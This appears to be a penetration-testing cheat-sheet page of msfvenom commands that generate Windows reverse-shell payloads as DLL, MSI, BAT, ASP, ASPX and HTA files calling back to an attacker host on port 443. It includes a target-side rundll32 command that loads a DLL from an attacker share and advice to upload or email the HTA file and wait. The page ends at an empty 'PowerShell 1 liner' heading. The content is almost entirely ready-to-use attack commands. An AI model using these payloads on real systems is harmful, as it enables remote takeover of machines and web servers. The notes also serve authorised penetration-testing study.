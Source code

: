 ```bash - kali
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$KALI LPORT=443 -f dll -o reverse64.dll
```

[[rlwrap]]

```command prompt - target
rundll32.exe \\$KALI\share\reverse.dll ,0
```

#### msi
```bash - kali
msfvenom -p windows/shell_reverse_tcp LHOST=$KALI LPORT=443 -f msi -o reverse86.msi
```

```bash - kali
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$KALI LPORT=443 -f msi -o reverse64.msi
```

#### bat
```bash - kali
msfvenom -p windows/shell/reverse_tcp lhost=$KALI lport=443 > shell86.bat
```

```bash - kali
msfvenom -p windows/x64/shell/reverse_tcp lhost=$KALI lport=443 > shell64.bat
```

#### asp
```bash - kali
msfvenom -p windows/shell/reverse_tcp lhost=$KALI lport=443 -f asp > shell86.asp
```

```bash - kali
msfvenom -p windows/x64/shell/reverse_tcp lhost=$KALI lport=443 -f asp > shell64.asp
```

#### aspx
```bash - kali
msfvenom -p windows/shell/reverse_tcp lhost=$KALI lport=443 -f aspx > shell86.aspx
```

```bash - kali
msfvenom -p windows/x64/shell/reverse_tcp lhost=$KALI lport=443 -f aspx > shell64.aspx
```

#### .hta file:
```bash - kali
msfvenom -p windows/shell_reverse_tcp LHOST=$KALI LPORT=443 -f hta-psh -o reverse.hta
```

Upload / email file, then wait!

#### .hta raw:
```bash - kali
msfvenom -p windows/shell_reverse_tcp LHOST=$KALI LPORT=443 -f hta-psh
```

#### PowerShell 1 liner
